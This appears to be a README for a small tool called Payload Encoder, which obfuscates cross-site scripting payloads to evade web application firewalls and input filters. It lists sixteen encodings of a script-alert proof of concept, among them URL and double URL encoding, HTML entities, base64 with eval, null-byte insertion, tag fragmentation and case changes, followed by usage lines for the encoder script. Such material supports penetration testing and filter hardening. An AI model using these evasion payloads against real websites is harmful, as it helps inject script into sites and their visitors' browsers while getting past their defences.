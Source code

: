 # Payload Encoder
Payload Encoder
When trying to bypass Web Application Firewalls (WAFs) or filters, encoding and obfuscation techniques can help evade basic detection. Below are various methods to encode or obfuscate the payload 

For Example: "<script>alert(1)</script>":
1. URL Encoding

    Full URL encoding:
    
```
%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E
```
Partial URL encoding (only encode specific characters):



    %3Cscript%3Ealert%281%29%3C/script%3E

2. HTML Entity Encoding

    Using HTML entities for all characters:


```
&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;&#60;&#47;&#115;&#99;&#114;&#105;&#112;&#116;&#62;
```
Mixed HTML entities:



    &#x3C;script&#x3E;alert(&#49;)&#x3C;/script&#x3E;

3. Hexadecimal Encoding

    Using hexadecimal escape sequences:


```
    \x3Cscript\x3Ealert\x281\x29\x3C/script\x3E
```
4. Base64 Encoding

    Encoding the entire payload:


```
PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
```
Decoding in an HTML context:



    <script>eval(atob('YWxlcnQoMSk='))</script>

5. Double URL Encoding

    Encoding the URL-encoded version again:


```
    %253Cscript%253Ealert%25281%2529%253C%252Fscript%253E
```
6. Hexadecimal Representation of Characters

    Using hex representation:


```
    \u003Cscript\u003Ealert(1)\u003C\u002Fscript\u003E
```
7. Octal Encoding

    Using octal representation:


```
    \074script\076alert(1)\074\057script\076
```
8. JavaScript Escape Sequences

    Escaping characters within JavaScript:


```
    <script>\x61\x6c\x65\x72\x74\x28\x31\x29</script>
```
9. Mixed Encoding

    Combining different encoding methods:


```
    &#x3C;&#x73;&#99;r&#105;p&#x74;&#x3E;&#97;&#x6C;&#x65;&#x72;&#116;&#x28;&#49;&#x29;&#x3C;&#x2F;&#115;&#x63;&#x72;&#105;&#112;&#116;&#x3E;
```
10. Non-Printable Characters

    Injecting non-printable characters:


```
    <scri%00pt>alert(1)</scri%00pt>
```
11. Breaking Up the Script Tag

    Fragmenting the <script> tag:


```
    <scr"+"ipt>alert(1)</scr"+"ipt>
```
12. Using Backticks

    Using backticks in place of single or double quotes:


```
    <script>alert(`1`)</script>
```
13. Expression and Eval

    Using eval or expression in inline JavaScript:


```
    <img src=x onerror="eval('alert(1)')">
```
14. Lowercase and Uppercase

    Altering case:


```
    <sCriPt>alert(1)</sCriPt>
```
15. Polyglot Payload

    Crafting a payload that can be interpreted differently depending on the context:


```
    <scri<script>pt>alert(1)</scri</script>pt>
```
16. Inline Comments

    Adding inline comments to break up the script:


```
<scr<!-- -->ipt>alert(1)</scr<!-- -->ipt>
```

# Usage

Single Payload Encoding:

bash
```
python encode_payloads.py -p "<script>alert(1)</script>" [-o output.txt]
```
Encodes a single payload. If -o is provided, it saves the result to output.txt. Otherwise, it prints the encoded payloads to the console.

Multiple Payloads from a File:

bash
```
python encode_payloads.py -l input_payloads.txt [-o output.txt]
```


Input Parameters:

    Use -p or --payload for a single payload.
    Use -l or --list for encoding payloads from a file.
    Use -o or --output to specify an output file (optional).
